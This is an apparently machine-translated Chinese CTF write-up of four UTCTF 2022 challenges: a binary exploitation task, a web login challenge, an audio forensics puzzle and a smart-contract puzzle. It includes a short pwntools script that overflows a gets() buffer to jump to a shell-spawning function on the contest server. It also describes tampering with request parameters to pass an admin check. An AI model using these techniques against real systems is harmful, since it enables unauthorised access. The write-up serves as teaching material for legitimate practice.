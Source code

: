 # UTCTF 2022 —详细报道

> 原文：<https://infosecwriteups.com/utctf-2022-writeup-de956bfe0bf3?source=collection_archive---------2----------------------->

![](img/47910b6d7a210fb19748f9d219bfc0e3.png)

我在 UTCTF 中参加了一些挑战，所以我想分享一下这些挑战的记录。

1.  **跳来跳去**

![](img/6a7ff31d827d60d9f990f9df55be0dfa.png)

这是基于缓冲区溢出攻击的初学者挑战。

我们有二进制文件。为了分析它，我们可以使用像[吉德拉](https://ghidra-sre.org/)或[艾达](https://hex-rays.com/ida-pro/)这样的软件。我曾经使用 ghidra 并通过反编译器查看函数。

我们有主函数，它不提供更多的信息，从用户的输入看起来更直接。

![](img/b79a38bd4e43136245e40c35d8441f3f.png)

当我观察二进制文件中可用的函数时。我发现“get_flag”函数可疑。

![](img/da13065875bd514d2d7e2c47837ed258.png)

所以，它基本上是用'/bin/sh '调用系统函数。这是一个漏洞，它会让我们通过外壳访问服务器。

![](img/8e47ac4f1231010e97e760e013790761.png)

我们知道 gets()函数容易受到缓冲区溢出攻击，我们可以利用它。我写了一个脚本来获得交互式 shell。

```
from pwn import *
r = remote('pwn.utctf.live', 5001)
r.recvuntil('drill')
e = elf.ELF('./jump')
payload = b'a'*120 + p64(e.symbols['get_flag']) + b'\n'
r.sendline(payload)
r.interactive()
```

我们用两件事创建一个有效载荷，一是我们溢出缓冲区来修改 rsp 地址，在 gets()函数执行后，它将指向下一个地址。所以，我们必须跳转到 get_flag()函数来获取 shell。我们知道缓冲区大小是 112。由于是 64 位二进制，112+8 会溢出 rbp(基址指针)，接下来是 rsp(堆栈指针)。我们用 get_flag()函数地址的地址写 rsp 寄存器。然后，我们将这个有效载荷发送到服务器。

![](img/903f870495aa6329e240b52dcb21ee02.png)

所以最后我们得到了 shell，并为 flag 创建了“flag.txt”文件。

**2。作为管理员 Pt 3** 登录

![](img/bd3d799fb3ff6c62668f2f1d16f0c2a4.png)

这是另一个基于 web 漏洞的初学者挑战。他们给了我们两样东西

1.  链接到易受攻击的网站
2.  服务器 python 代码

当我分析服务器代码时。我发现用户名和密码是“admin”。

![](img/e383a8bb034dd0fe4ff594f23e90ec51.png)

我们已经通过这是登录页面。但是在传递之后，我们得到了错误。

![](img/0c1fb1d0a6e03f32229bc5d6e7218b27.png)

如果我们再次观察服务器代码，会发现请求了三个有效负载

1.  用户名
2.  显示当前工作目录
3.  isAdmin

但是当我们通过浏览器中的 inspect 元素检查发送到服务器的数据包时。仅发送用户名和密码。

![](img/ac2a8b83b8393990eb8e081a954e292f.png)

所以我们必须重写请求参数并将其发送到服务器。我们在“网络”标签中有“编辑并发送”选项。

![](img/d24151c26a21d9b585fef6cd6dcabc81.png)

在发送这个请求之后，我们得到这个标志作为我们的响应。

![](img/ac0af7b563066f5dd135aea798bc1e4f.png)

**3。听起来很熟悉**

![](img/86d20ba515a3b49924a2719acb5bcfff.png)

这是一个基于分析 wav 文件并找到其中隐藏信息的取证挑战。

当我打开 wav 文件时，我明白这是手机键盘的声音。于是我就用[这个](https://unframework.github.io/dtmf-detect/)网站来解码音调。

当我放下“超级奇怪”的 wav 文件并播放它时。它给了我解码的数字。

```
**100888210610071905578878610699109864888508912081681081029071571029810957488812286111817274108102816161**
```

此外，每次两三位数之间都有间隔，所以我把它们分开了。后来我观察到它们是字符的 ascii 值。做了一个小 python 代码来转换。

![](img/551f155ed3aa140cd72ca17ff9369aea.png)![](img/925c62381b86e41b4547c9165071d1bd.png)

运行程序后，我得到了一个 base64 编码的字符串。解码给了我旗子。

![](img/1c99efe6f7d3aa607611ea4df5d21610.png)

4.**脾气暴躁的精灵**

![](img/c415ccfeb800419dfe5c26ab3c6045e3.png)

这是一个基于智能合约的杂项挑战。他们给了我们智能合约地址和粘贴箱中的智能合约。

我们可以通过[以太网扫描](https://ropsten.etherscan.io/)查看智能合同的详细信息，它会告诉您有关智能合同创建和地址间交易的详细信息。

该智能合同已在 Ropsten 测试网络中部署。所以我们必须在 etherscan 中选择 Ropsten 网络并搜索地址。

[https://ropsten . ethers can . io/address/0x 867d 66 c 78235 CD 6 c 989 fbfa 34606 fcff 637 FB 613](https://ropsten.etherscan.io/address/0x867D66C78235CD6c989FbFA34606FcfF637fB613)

我们可以看到已经发生了几笔交易，但我们对合同创建感兴趣。

![](img/2c670a2163b9d6461ab1ea68e268b8e6.png)

当我们更详细地检查交易时。

![](img/9fc43892f64a7b7229e81087f2b52605.png)

我们可以在输入数据部分看到编码为 UTF-8 的标志。

此外，为了了解更多关于智能合同的信息，我们查看了 [pastebin](https://pastebin.com/T7r9vFvg) ，其中包含了更多关于已部署智能合同的信息。

演奏这首 CTF 很有趣。希望你学到了新东西。

阅读我的其他文章。

网址:[https://vishnuram1999.github.io/](https://vishnuram1999.github.io/)

更多其他文章请关注我。
